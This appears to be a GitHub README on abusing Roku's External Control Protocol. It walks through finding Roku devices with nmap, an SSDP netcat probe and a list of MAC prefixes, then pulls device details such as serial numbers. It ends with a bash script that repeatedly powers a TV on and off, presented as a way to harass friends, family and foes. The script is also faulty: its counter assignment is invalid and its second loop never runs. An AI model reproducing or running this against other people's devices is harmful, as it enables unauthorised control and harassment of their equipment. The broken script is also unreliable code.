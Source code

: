 # Abusing ROKU APIs

____________________________________________________________________________________________________________________________________________________________________

![Roku](https://user-images.githubusercontent.com/72598486/133314573-0f0ebc16-9d51-4c1f-b2ad-1c7e15851214.png)

____________________________________________________________________________________________________________________________________________________________________

## Introduction: 

____________________________________________________________________________________________________________________________________________________________________
  I am excited to share how to successfully enumerate your network for Roku devices, issue External Control Protocol (ECP) commands to remotely manipulate televisions, and how to design custom scripts to automate messing with your friends! For more information, check out my Medium article: https://medium.com/@RoseSecurity/a-quick-guide-on-how-to-aggravate-friends-family-and-foes-37182230d7. 
____________________________________________________________________________________________________________________________________________________________________

## Enumerating Your Network for Roku Devices:

____________________________________________________________________________________________________________________________________________________________________

  Utilizing Nmap, we can issue the following command to enumerate our network for Roku devices by looking for service versions (-sV), operating systems (-O), and speeding up the scan by not resolving DNS (-n).

```
$ sudo nmap -sV -O -n 192.168.X.X/24
```

**Output of Nmap scan:**
```
Nmap scan report for 192.168.X.X
Host is up (0.010s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE VERSION
7000/tcp open  rtsp    AirTunes rtspd 
9080/tcp open  http    Mongoose httpd
MAC Address: 10:59:32:XX:XX:XX (Roku)
```
  We see that Nmap identified the OUI of the MAC address, but I have provided a list of Roku MAC addresses to search for on your network!
  
**ROKU MAC Addresses**
  
```
roku, inc. 	d0:4d:2c 	
roku, inc. 	b0:a7:37 	
roku, inc 	b0:ee:7b 	
roku, inc 	d8:31:34 	
roku, inc 	10:59:32 	
roku, inc 	a8:b5:7c 	
roku, inc. 	b8:a1:75 	
roku, inc. 	88:de:a9 	
roku, inc. 	00:0d:4b 	
roku, inc 	20:ef:bd 	
roku, inc. 	08:05:81 	
roku, inc 	c8:3a:6b 	
roku, inc 	8c:49:62 	
roku, inc 	bc:d7:d4 	
roku, inc. 	ac:3a:7a 	
roku, inc. 	b8:3e:59 	
roku, inc. 	dc:3a:5e 	
roku, inc 	ac:ae:19 	
roku, inc. 	cc:6d:a0 	
roku, inc 	84:ea:ed 	
```

## More Enumeration
____________________________________________________________________________________________________________________________________________________________________

We can identify the device location, name, and several other pertinent fields such as supporting remote capabilities! Another way of enumerating Roku devices is by sending a request to the Simple Service Discovery Port (SSDP) multicast address and port 1900. We can do this by using Netcat:

```
$ nc -u 239.255.255.250 1900 < Roku_ECP_Enum.txt
```
The device will respond with this information which can also be observed in Wireshark:

```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
ST: roku:ecp
Location: http://192.168.X.X:8060/
USN: uuid:roku:ecp:P0A070000007
``` 

Utilizing Nmap and Wireshark, we can easily identify the IP address of any Roku devices attached to the network, and if they support the use of ECPs, we can remotely view the XML file on the webserver of the device!
  
  ```
  http://192.168.X.X:8060/query/device-info
  ```
This will produce an XML page similar to the one below:
  
```
<device-info>
<serial-number>X004000B231</serial-number>
<device-id>S00820BB231</device-id>
<vendor-name>Roku</vendor-name>
<model-name>Roku Ninja</model-name>
<model-number>3930X</model-number>
<model-region>US</model-region>
<is-tv>false</is-tv>
<is-stick>false</is-stick>
<ui-resolution>1080p</ui-resolution>
<supports-ethernet>false</supports-ethernet>
<wifi-mac>10:59:32</wifi-mac>
<wifi-driver>realtek</wifi-driver>
<has-wifi-extender>false</has-wifi-extender>
<has-wifi-5G-support>true</has-wifi-5G-support>
<can-use-wifi-extender>true</can-use-wifi-extender>
<network-type>wifi</network-type>
<network-name>Hillary's Email Server</network-name>
<friendly-device-name>Roku LivingRoom</friendly-device-name>
<friendly-model-name>Roku Express</friendly-model-name>
<default-device-name>Roku Express - X004000AJDX1</default-device-name>
<user-device-name>Roku Master</user-device-name>
<user-device-location>LivingRoom</user-device-location>
<build-number>AEA.00E04209A</build-number>
<software-version>10.0.0</software-version>
<software-build>4209</software-build>
<secure-device>true</secure-device>
<language>en</language>
<country>US</country>
<locale>en_US</locale>
<time-zone-auto>true</time-zone-auto>
<time-zone>US/Eastern</time-zone>
<time-zone-name>United States/Eastern</time-zone-name>
<time-zone-tz>America/New_York</time-zone-tz>
<time-zone-offset>-240</time-zone-offset>
<clock-format>12-hour</clock-format>
<uptime>2912968</uptime>
<power-mode>PowerOn</power-mode>
<supports-suspend>false</supports-suspend>
<supports-find-remote>true</supports-find-remote>
<find-remote-is-possible>false</find-remote-is-possible>
<supports-audio-guide>true</supports-audio-guide>
<supports-rva>true</supports-rva>
<developer-enabled>false</developer-enabled>
<keyed-developer-id/>
<search-enabled>true</search-enabled>
<search-channels-enabled>true</search-channels-enabled>
<voice-search-enabled>true</voice-search-enabled>
<notifications-enabled>true</notifications-enabled>
<notifications-first-use>true</notifications-first-use>
<supports-private-listening>true</supports-private-listening>
<headphones-connected>false</headphones-connected>
<supports-ecs-textedit>true</supports-ecs-textedit>
<supports-ecs-microphone>true</supports-ecs-microphone>
<supports-wake-on-wlan>false</supports-wake-on-wlan>
<supports-airplay>true</supports-airplay>
<has-play-on-roku>true</has-play-on-roku>
<has-mobile-screensaver>false</has-mobile-screensaver>
<support-url>roku.com/support</support-url>
<grandcentral-version>5.5.62</grandcentral-version>
<trc-version>3.0</trc-version>
<trc-channel-version>4.2.3</trc-channel-version>
<davinci-version>2.8.20</davinci-version>
</device-info>
```
## Issuing Commands
____________________________________________________________________________________________________________________________________________________________________

There are numerous commands that can be issued via HTTP requests, so I have provided the table of potential ECPs that can be sent to the device:

![ECP](https://user-images.githubusercontent.com/72598486/133323989-a69daa5c-eec8-41be-b520-8c955c499204.png)

____________________________________________________________________________________________________________________________________________________________________

## An Example Script for Having Fun
____________________________________________________________________________________________________________________________________________________________________

```
#!/bin/bash
# How to mess with someone who has a Roku TV 101
Hahaha = 1
while [ $Hahaha -le 100 ]
do 
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/powerOff"
((Hahaha=Hahaha+1))
done
curl -d '' "http://192.168.X.X:8060/keypress/powerOn"
curl -d '' "http://192.168.X.X:8060/keypress/Home"
while [ $Hahaha -le 100 ]
do
curl -d '' "http://192.168.X.X:8060/keypress/left"
curl -d '' "http://192.168.X.X:8060/keypress/down"
((Hahaha=Hahaha+1))
done
echo "Can we still be friends?"
```

I hope that you learned something new, and if you need more information and resources on how to have more fun with these devices, check out https://developer.roku.com/docs/developer-program/debugging/external-control-api.md

Happy hunting!

wq!

